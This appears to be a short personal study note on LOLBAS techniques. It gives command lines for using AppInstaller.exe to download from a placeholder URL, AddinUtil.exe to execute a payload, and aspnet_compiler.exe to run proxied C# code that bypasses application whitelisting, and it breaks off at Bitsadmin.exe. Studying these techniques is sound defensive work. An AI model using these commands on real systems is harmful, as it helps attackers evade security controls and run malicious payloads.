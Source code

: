# LOLBAS

### 1.AppInstaller.exe

### Description: 
Download into INetCache
### CMD: 
```
start ms-appinstaller://?source=https://xxx//
```
### What is INetCache?
INetCache is a folder(C:\Users\Default\AppData\Local\Microsoft\Windows\INetCache) to store files downloaded from Internet.

### 2.AddinUtil.exe

### Description:
Execute a payload called `Addins.Store`
### CMD:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\AddinUtil.exe -AddinRoot:.
```
### What does the parameter AddinRoot mean?
It means the root directory to search for the payload-`Addins.Store`

### 3.Aspnet_Compiler.exe

### Description:
Execute proxied payload with Microsoft signed binary to bypass AWL

Execute `C# code` with the Build Provider and proper folder structure in place.
### CMD:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_compiler.exe -v none -p C:\users\cpl.internal\desktop\asptest\ -f C:\users\cpl.internal\desktop\asptest\none -u
```
### What is AWL bypass?
Application whitelisting (AWL) is a proactive approach that allows only pre-approved and specified programs to run. 
### What's the difference between tag-EXECUTE and tag-AWL bypass on LOLBAS?
???

### 4.Bitsadmin.exe
